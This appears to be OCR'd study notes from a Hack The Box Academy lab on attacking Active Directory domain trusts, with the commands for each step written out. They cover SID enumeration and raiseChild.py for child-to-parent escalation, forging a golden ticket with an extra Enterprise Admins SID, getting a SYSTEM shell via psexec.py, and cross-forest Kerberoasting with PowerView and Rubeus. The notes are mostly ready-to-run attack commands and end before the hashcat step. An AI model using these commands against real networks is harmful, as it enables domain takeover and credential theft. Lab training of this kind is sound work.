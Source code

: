 ```
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
+ Attaching the Domain SID to the Enerprise Admin's RID (https://adsecurity.org/?p=1001)
```
extra-sid S-1-5-21-3842939050-3880317879-2865463114-519
```

```
Get-ADDomain htb.local
```
**Grab Domain SID**
## raseChild.py
```
https://github.com/fortra/impacket/blob/master/examples/raiseChild.py
```
If the target-exec switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.
```
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
## Once we have the above information
### Constructing a Golden Ticket using ticketer.py
```
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```
The ticket will be saved down to our system as a credential cache (ccache) file, which is a file used to hold Kerberos credentials. Setting the KRB5CCNAME environment variable tells the system to use this file for Kerberos authentication attempts.
```
export KRB5CCNAME=hacker.ccache
```
#### Getting a SYSTEM shell using Impacket's psexec.py
```
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```
# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
## Enumerating Accounts for Associated SPNs Using PowerView Get-DomainUser (we knew
```
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName
```
### Enumerating the mssqlsvc Account (account with SPN available found in the previous command)
```
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof
```
### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag (domain is available from the previous command after DC=
```
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap
```
### Run the hash through hashcat